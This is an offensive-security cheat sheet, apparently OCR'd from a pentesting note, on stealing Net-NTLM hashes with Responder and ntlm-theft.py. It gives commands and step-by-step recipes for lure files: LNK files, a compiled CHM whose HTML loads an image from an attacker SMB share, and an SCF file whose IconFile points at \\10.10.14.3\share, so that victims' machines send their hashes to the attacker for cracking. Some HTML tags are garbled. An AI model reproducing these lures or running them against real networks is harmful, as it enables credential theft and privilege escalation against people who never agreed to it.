 ## Net-NTLM Hash stealing with Responder

## Tools synergizing with Responder: ntlm-theft.py

### Requirements: The user you want to escalate to should react with your malicious file/responder SMB server in a way that it calls back to your responder listener to dump his Net-NTLM hash to crack with hashcat.

### Usage:

#### sudo responder -I tun0 (Turn on responder)

## There are various ways to steal hashes with responder, but they have all similar philosophy behind the technique

### .LNK Files

#### 1) python3 ntlm-theft.py -g all -s OUR_IP -f FOLDER (Generates any malicious file it can make (LNK included) all inside the specified folder name)

#### 2) sudo responder -I tun0 (Start responder)

#### 3) Upload malicious file to the target SMB server/target machine (Depends on the context of the use case your are dealing with)

#### 4) PROFIT

### .CHM Files

#### 1) Create an HTML document that points to your SMB server

#### <html<
####   <body<
####     <img src=\\OUR_IP\share\WHATEVER.png /<
####        </body<
#### </html<

#### 2) On a windows machine, use the HTML Help Workshop https://www.microsoft.com/en-us/download/confirmation.aspx?id=21138

#### 3) Open HTML Help Workshop then go to: File -> New -> Project. Save at any folder you like

#### 4) In the next window, click the box to include HTML files

#### 5) Select your created HTML file here

#### 6) In the tool bar, click the compile button. Then when prompted, click compile.

#### 7) Copy your compiled .chm file to your linux machine, then upload it to your target machine.

#### 8) PROFIT!

#### .SCF File

#### 1) Create an .scf file that points to your SMB server

#### [Shell]
#### Command=2
#### IconFile=\\10.10.14.3\share\pwn.ico
#### [Taskbar]
#### Command=ToggleDesktop
